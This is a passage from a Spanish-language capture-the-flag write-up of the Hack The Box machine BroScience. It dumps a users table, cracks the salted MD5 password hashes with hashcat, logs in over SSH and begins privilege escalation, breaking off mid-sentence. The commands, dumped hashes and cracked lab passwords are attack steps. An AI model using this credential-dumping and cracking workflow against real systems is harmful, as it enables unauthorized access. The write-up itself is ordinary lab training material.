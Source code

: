 Ahora vemos el contenido de la tabla users

```
broscience=> select * from users;
  
1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf |   
2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 |   
3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 |   
4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 |   
5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm |

```

Vemos los hashes, los copiamos y los rompemos con hashcat. Una cosa a tener en cuenta es que estos hashes necesitan del "salt" que esto es para que sea más complicado a un atacante romper los hashes, pero nosotros ya lo tenemos que lo encontramos en el archivo de "db_connect.php"

Ahora así nos quedan los hashes

```
❯ cat hashes

15657792073e8a843d4f91fc403454e1:NaCl
13edad4932da9dbb57d9cd15b66ed104:NaCl
bd3dad50e2d578ecba87d5fa15ca5f85:NaCl
a7eed23a7be6fe0d765197b1027453fe:NaCl
5d15340bded5b9395d5d14b9c21bc82b:NaCl
```

Ahora los rompemos 

```
❯ hashcat -m 20 hashes /usr/share/wordlists/rockyou.txt

  13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
  bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
  5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest
```

Y nos conectamos por ssh

```
❯ ssh bill@broscience.htb
bill@broscience.htb's password: 
bill@broscience:~$ hostname -I
10.129.95.77 dead:beef::250:56ff:feb9:c1d3 
bill@broscience:~$ 
```

Nos pasamos pspy a la máquina victima y vemos que se está ejecutando un script de bash "/opt/renew_cert.sh". Si le echamos un vistazo vemos que ejecuta el siguiente comando 
